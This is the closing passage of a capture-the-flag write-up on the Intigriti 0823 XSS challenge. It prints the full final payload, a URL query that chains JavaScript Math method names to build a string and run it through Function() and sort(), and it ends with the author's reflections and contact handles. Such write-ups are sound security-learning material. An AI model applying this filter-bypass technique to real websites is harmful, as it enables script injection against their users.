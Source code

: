 And the result is

![Final Steps To Get Final String](/static/images/intigriti-0823/steps_till_payload_string.png)

Now the only thing to do is to pass that string to the `Function()` we talked about earlier and call it using `sort()` array method.

### Joining it all together

Joining it all together, this is the last payload:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join,Math.constructor.constructor,Math.seeds.sort
```

And here our goal is achieved!

![Final Alert](/static/images/intigriti-0823/final_alert.png)

## Conclusion

This task was so fun to do ~~because I like javascript so much~~. Greetz to huli for making such a fun and nice quality challenge as usual. I surely made mistakes through out my first thoughts which made me loose some time but having the main idea and limiting it with the environment you’re in and the constraints being applied will make you recover fast! Also having some experience with stuff like this will make you advance and think better. I hope you enjoyed reading the article and thanks for your time everyone!

You can contact me on:

- Twitter: https://twitter.com/t0m7r00z
- Discord: `Iy3dMejri#1997`
- LinkedIn: https://www.linkedin.com/in/iyed-mejri/
